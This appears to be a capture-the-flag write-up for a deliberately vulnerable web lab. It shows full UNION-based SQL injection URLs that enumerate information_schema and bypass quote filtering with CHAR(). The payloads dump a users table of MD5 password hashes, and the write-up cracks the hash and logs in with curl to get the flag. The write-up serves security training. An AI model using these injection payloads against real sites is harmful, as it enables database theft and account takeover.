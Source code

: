 # http://192.168.99.100/index.php?page=signin

to get this flag we're going to
- list all databases on the sql server 
- list tables in a database
- list columns in a table

first, let's go to a page that allows us to do sql injection:

either `http://192.168.99.100/?page=member` or `http://192.168.99.100/index.php?page=searchimg`

normally, in sql, to get a list of all databases you would do:

```sql
show databases;
```

however, because we're doing sql injection, we must use `union` and get the database names via `select`

we can the database names from `information_schema.schemata`

to see all available columns in schemata we can do `select * from information_schema.schemata`

we are most interested in `schema_name`

#
let's try this url:
_**`http://192.168.99.100/index.php?page=member&id=-1 union select schema_name, 0 from information_schema.schemata&Submit=Submit`**_

after a little parsing, we have all database names:
-   `information_schema`
-   `Member_Brute_Force`
-   `Member_Sql_Injection`
-   `Member_guestbook`
-   `Member_images`
-   `Member_survey`

#

we are interested in the `Member_Brute_Force` database, how do we get a list of tables?

normally, in **sql** it would be something like this:

```sql
    use Member_Brute_Force;
    show tables;
```

but again, since we're using `union` and `select` we have to change that,

we can get the information we need from `information_schema.tables`

to see all available columns you could do `select * from information_schema.tables`

in our case, we're only interested in table names so we could do `select table_name from information_schema.tables`

and to narrow it down to a specific database we could do `select table_name from information_schema.tables where table_schema='Member_Brute_Force'`

however the php page will throw an error if we try to use quotes in our query, so we need a workaround ..


**`CHAR()` and `python` to the rescue ...**
```sh
e1z2r10p4% python -c 'print([ord(c) for c in "Member_Brute_Force"]);'       
[77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101]
```

so instead of using quotes

`where table_schema='Member_Brute_Force'`

we're going to use 

`where table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101)`

this is just a way of representing the database name without using quotes

let's try this url: _**`http://192.168.99.100/index.php?page=member&id=-1 union select table_name,0 from information_schema.tables where table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101)&Submit=Submit`**_

and now we know the name of the table in that database: `db_default`

let's get a list of column names:
url: _**`http://192.168.99.100/index.php?page=member&id=-1 union select column_name,0 from information_schema.columns where table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101)&Submit=Submit`**_

if the database had more than one table you would probably also want to specify the table name like so:

`select column_name from information_schema.columns where table_schema=CHAR(...) and table_name=CHAR(...)`

so now, we know the column names in `Member_Brute_Force.db_default`:
-   *id*
-   *username*
-   *password*

to list all usernames and passwords lets do:
_**`http://192.168.99.100/index.php?page=member&id=-1 union select username, password from Member_Brute_Force.db_default&Submit=Submit`**_


how nice, we don't have to use `CHAR()` here

and this is what we get

username|password
-|-
root|3bf1114a986ba87ed28fc1b5884fc2f8
admin|3bf1114a986ba87ed28fc1b5884fc2f8


both have the same password, haha

a quick google search reveals that the password is an **MD5** hash of the string **_shadow_**


let's see a page diff:

```sh
e1z2r10p4% curl -s 'http://192.168.99.100/index.php?page=signin&username=dummy&password=dummy&Login=Login' -o before.html
e1z2r10p4% curl -s 'http://192.168.99.100/index.php?page=signin&username=admin&password=shadow&Login=Login' -o after.html 
e1z2r10p4% diff before.html after.html 
37c37
< <center><h2 style="margin-top:50px;"></h2><br/><img src="images/WrongAnswer.gif" alt=""></center>				</div>
---
> <center><h2 style="margin-top:50px;">The flag is : b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2 </h2><br/><img src="images/win.png" alt="" width=200px height=200px></center>				</div>
e1z2r10p4% 
```


##### we have the flag `b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2`
tada!


another approach to getting this flag would be to actually try and (like the database name suggests) brute force this page via consecutive `GET` requests using a wordlist or dictionary, but it seems that the page calls the `sleep()` function when the user provides the wrong password, this makes the brute force approach less appealing
